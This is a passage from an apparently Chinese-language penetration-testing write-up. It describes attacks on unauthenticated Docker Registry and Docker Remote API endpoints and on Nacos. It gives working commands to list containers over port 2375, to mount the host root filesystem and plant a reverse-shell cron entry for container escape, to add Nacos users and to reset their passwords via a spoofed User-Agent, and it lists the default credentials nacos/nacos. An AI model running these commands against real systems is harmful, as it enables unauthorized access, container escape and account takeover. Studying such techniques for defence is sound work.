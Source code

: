 ## 2.3、docker未授权

### 2.3.1、 registry api未授权访问

在 Docker Registry API 中，认证和授权通常是基于访问令牌（Access Token）或者用户名和密码的。如果未正确设置访问控制权限，即会造成未授权访问漏洞，攻击者可直接下载registry仓库的所有镜像容器。

访问/v2/\_catalog接口即可查看全部仓库内容

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/攻防实战外网突破/attach-c506302d2a4bd8ad82556dbabd2be3a46eb0eae8.png)  
[https://github.com/Soufaker/docker\_v2\_catalog](https://github.com/Soufaker/docker_v2_catalog)

利用上述工具可直接下载镜像

### 2.3.2、 Docker Remote API未授权访问

为了管理容器集群，Docker允许Daemon作为后台守护进程执行通过管理接口发送的Docker命令，使用参数-H 0.0.0.0:2375启动Docker Daemon时，将开放2375端口接收来自远程Docker客户端的命令。在这种情况下，2375端口被作为非加密端口暴露出来，并且不存在任何形式的身份验证，攻击者可以直接使用Docker命令连接到Docker Daemon，并对容器进行直接操作，配合根目录挂载即可实现容器逃逸。

```php
#查看容器 docker -H tcp://<target>:2375 ps -a
```

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/攻防实战外网突破/attach-51cfb8bea7521008030a205378af8c6c852f3660.png)

```php
#挂载宿主机的根目录到容器内的mnt目录 docker -H tcp://<target>:2375 run -it -v /:/mnt nginx:latest /bin/bash #反弹shell echo '反弹shell命令' >> /mnt/var/spool/cron/crontabs/root
```

## 2.4、Nacos

Nacos是一个开源的动态服务发现、配置管理和服务管理平台，它提供了注册中心、配置中心和服务管理等功能，帮助开发人员实现微服务架构中的服务注册、配置管理以及服务发现等需求。

作为一个开源工具，漏洞还是被披露不少的，

**未授权访问：**[/nacos/v1/auth/users?pageNo=1&pageSize=1](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) 直接查看用户

**任意用户添加**：POST [/nacos/v1/auth/users](http://192.168.80.131:8848/nacos/v1/auth/users?pageNo=1&pageSize=1) username= & password=

**任意用户密码修改**：curl -X PUT '[http://127.0.0.1:8848/nacos/v1/auth/users?accessToken](http://127.0.0.1:8848/nacos/v1/auth/users?accessToken)\\=' -H 'User-Agent:Nacos-Server' -d 'username\\=test1&newPassword\\=test2'

**弱口令**：nacos/nacos

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/攻防实战外网突破/attach-bc51f0813b8aa1b7f7072167c68ba15a26d10279.png)

通过编排密码爆破进后台，发现大量配置文件，但敏感信息均被加密

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/攻防实战外网突破/attach-62d51f1c7326e7114b1022865a3669ed6d4f46b7.png)
